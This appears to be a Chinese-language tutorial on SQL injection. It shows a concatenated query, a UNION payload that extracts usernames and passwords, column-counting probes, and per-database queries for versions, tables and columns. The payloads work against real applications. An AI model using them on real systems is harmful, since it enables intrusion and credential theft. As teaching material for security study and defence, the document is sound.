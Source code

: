 # SQL注入

## SQL注入原理

SQL注入漏洞源自于程序员在应用开发时，通过 **拼接** 的方式来生成SQL语句。考虑以下代码：

> $sql = "SELECT title, description FROM books WHERE isbn = '" + $isbn + "' AND public = 1";

在“正常”情况下，程序员期待生成的SQL语句是类似这样的：

> SELECT title, description  
> FROM books  
> WHERE isbn = '`123`'  
> AND public = 1

但如果变量`$isbn`受控，我们可以令：

> $isbn = "`' UNION SELECT username, password FROM users -- `";

拼接后，SQL语句变为：

> SELECT title, description  
> FROM books  
> WHERE isbn = '<font color="red">' UNION SELECT username, password FROM users</font><font color="grey"> -- ' AND public = 1</font>

这样我们就把表`users`中的`username`和`password`也查出来了。

## UNION注入

### 确定SQL语句中“列”的数量

#### 方法一：通过 ORDER BY 子句试探

可以通过一系列“`ORDER BY 1`” 、“`ORDER BY 2`” ... 子句进行试探，如果进行到 “`ORDER BY n`” 时报错，则SQL语句有`n-1`列。

#### 方法二：通过 UNION SELECT UNLL 子句试探

可以通过一系列“`UNION SELECT NULL`”、“`UNION SELECT UNLL, NULL`” ... 子句进行试探，如果 SELECT `n` 个 NULL 时不再报错则SQL语句有`n`列。之所以用`NULL`，是因为每一列的元素数据类型要兼容，`NULL`与任何类型都兼容。

### 确定SQL语句中哪些列兼容字符串

通过一系列“`UNION SELECT 'a', NULL`”、“`UNION SELECT NULL, 'a'`”之类进行试探即可。

### 查询数据库版本

| 数据库           | SQL语法                      |
|------------------|------------------------------|
| MySQL，SqlServer | SELECT @@version             |
| Oracle           | SELECT banner FROM v$version |
| PostgreSQL       | SELECT version()             |

### 查询表信息

| 数据库                       | SQL语法                                                        |
|------------------------------|----------------------------------------------------------------|
| MySQL，SqlServer，PostgreSQL | SELECT table_schema, table_name FROM information_schema.tables |
| Oracle                       | SELECT owner, table_name FROM all_tables                       |

### 查询列信息

| 数据库                       | SQL语法                                                                                       |
|------------------------------|-----------------------------------------------------------------------------------------------|
| MySQL，SqlServer，PostgreSQL | SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'TABLE-NAME' |
| Oracle                       | SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'TABLE-NAME'            |

### 把多个表列的信息合并为一列显示

`' UNION SELECT CONCAT(username, '~', password) FROM users-- `

| 数据库               | 拼接语法               |
|---------------------|-----------------------|
| MySQL               | CONCAT('foo', 'bar')  |
| Oracle， PostgreSQL | 'foo' \|\| 'bar'      |
| Microsoft           | 'foo' + 'bar'         |
